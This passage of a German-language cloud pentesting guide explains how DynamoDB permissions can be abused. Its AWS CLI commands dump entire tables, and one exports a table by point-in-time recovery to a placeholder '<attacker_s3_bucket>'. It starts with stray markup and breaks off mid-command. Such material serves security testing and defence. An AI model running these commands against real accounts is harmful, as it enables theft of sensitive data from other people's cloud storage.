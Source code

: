 {% code title="inline" %}
```bash
aws dynamodb create-export --table-arn <table_arn> --s3-bucket <s3_bucket> --export-format <export_format>
```
{% end
```bash
aws dynamodb query \
--table-name TargetTable \
--key-condition-expression "AttributeName = :value" \
--expression-attribute-values '{":value":{"S":"TargetValue"}}' \
--region <region>
```
{% endtab %}
{% endtabs %}

**Potentieller Einfluss:** Indirekte Privilegieneskalation durch Auffinden sensibler Informationen in der Tabelle

### `dynamodb:Scan`

Sie können diese Berechtigung verwenden, um **die gesamte Tabelle einfach zu dumpen**.
```bash
aws dynamodb scan --table-name <t_name> #Get data inside the table
```
**Potentieller Einfluss:** Indirekte Privilegieneskalation durch Auffinden sensibler Informationen in der Tabelle

### `dynamodb:PartiQLSelect`

Sie können diese Berechtigung verwenden, um **die gesamte Tabelle einfach zu dumpen**.
```bash
aws dynamodb execute-statement \
--statement "SELECT * FROM ProductCatalog"
```
Diese Berechtigung erlaubt auch die Ausführung von `batch-execute-statement` wie:
```bash
aws dynamodb batch-execute-statement \
--statements '[{"Statement": "SELECT * FROM ProductCatalog WHERE Id = 204"}]'
```
aber du musst den Primärschlüssel mit einem Wert angeben, daher ist es nicht so nützlich.

**Potentieller Einfluss:** Indirekte Privilegieneskalation durch Auffinden sensibler Informationen in der Tabelle

### `dynamodb:ExportTableToPointInTime|(dynamodb:UpdateContinuousBackups)`

Diese Berechtigung ermöglicht es einem Angreifer, **die gesamte Tabelle in einen S3-Bucket seiner Wahl zu exportieren**:
```bash
aws dynamodb export-table-to-point-in-time \
--table-arn arn:aws:dynamodb:<region>:<account-id>:table/TargetTable \
--s3-bucket <attacker_s3_bucket> \
--s3-prefix <optional_prefix> \
--export-time <point_in_time> \
--region <region>
```
Beachten Sie, dass die Tabelle für das Funktionieren die Point-in-Time-Recovery aktiviert haben muss. Sie können überprüfen, ob die Tabelle dies hat mit:
```bash
aws dynamodb describe-continuous-backups \
--table-name <tablename>
```
Wenn es nicht aktiviert ist, müssen Sie es **aktivieren** und dafür benötigen Sie die **`dynamodb:ExportTableToPointInTime`** Berechtigung:
```bash
aws dynamodb update-continuous-backups \
```